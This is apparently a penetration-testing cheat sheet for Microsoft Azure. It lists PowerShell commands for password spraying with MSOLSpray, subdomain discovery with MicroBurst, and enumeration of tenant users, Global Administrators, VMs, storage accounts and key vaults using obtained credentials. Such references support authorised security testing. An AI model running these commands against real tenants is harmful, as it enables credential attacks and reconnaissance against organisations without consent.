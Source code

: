 #### Password spraying

```powershell
PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
```

### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>.mail.protection.outlook.com Email
<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
```

### Enumerate tenant with Azure AD Powershell

```powershell
Import-Module C:\Tools\AzureAD\AzureAD.psd1
Import-Module C:\Tools\AzureADPreview\AzureADPreview.psd1
PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS> $creds = New-Object System.Management.Automation.PSCredential("test@<TENANT NAME>.onmicrosoft.com", $passwd)
PS Az> Connect-AzureAD -Credential $creds

PS AzureAD> Get-AzureADUser -All $true
PS AzureAD> Get-AzureADUser -All $true | select UserPrincipalName
PS AzureAD> Get-AzureADGroup -All $true
PS AzureAD> Get-AzureADDevice
PS AzureAD> Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember
PS AzureADPreview> Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False} | select DisplayName
```

### Enumerate tenant with Az Powershell

```powershell
PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS> $creds = New-Object System.Management.Automation.PSCredential ("test@<TENANT NAME>.onmicrosoft.com", $passwd)
PS Az> Connect-AzAccount -Credential $creds

PS Az> Get-AzResource
PS Az> Get-AzRoleAssignment -SignInName test@<TENANT NAME>.onmicrosoft.com
PS Az> Get-AzVM | fl
PS Az> Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}
PS Az> Get-AzFunctionApp
PS Az> Get-AzStorageAccount | fl
PS Az> Get-AzKeyVault
```
